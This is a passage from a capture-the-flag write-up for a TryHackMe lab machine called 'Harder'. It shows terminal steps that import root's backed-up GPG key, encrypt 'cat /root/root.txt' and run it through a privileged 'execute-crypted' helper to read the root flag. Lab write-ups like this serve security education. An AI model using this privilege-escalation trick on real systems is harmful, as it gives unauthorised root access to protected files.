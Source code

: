 ```shell
harder:~$ gpg --import /var/backup/root@harder.local.pub
gpg: directory '/home/evs/.gnupg' created
gpg: keybox '/home/evs/.gnupg/pubring.kbx' created
gpg: /home/evs/.gnupg/trustdb.gpg: trustdb created
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1
```

Now, we have to encrypt the command using gpg key,
```shell
harder:~$ echo -n cat /root/root.txt > command # Made a file containing command
harder:~$ gpg -er root command # Encrypted using gpg key and as root
gpg: 6C1C04522C049868: There is no assurance this key belongs to the named user

sub  cv25519/6C1C04522C049868 2020-07-07 Administrator <root@harder.local>
 Primary key fingerprint: 6F99 621E 4D64 B6AF CE56  E864 C91D 6615 944F 6874
      Subkey fingerprint: E51F 4262 1DB8 87CB DC36  11CD 6C1C 0452 2C04 9868

It is NOT certain that the key belongs to the person named
in the user ID.  If you *really* know what you are doing,
you may answer the next question with yes.

Use this key anyway? (y/N) y
harder:~$ ls
command      command.gpg  nc           user.txt
harder:~$ execute-crypted command.gpg 
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
{root_flag}
```

And we get the key! There are a few concepts that were complicated but this one was really great learning experience! Loved it! 

Machine Pwned!

Link: https://tryhackme.com/room/harder

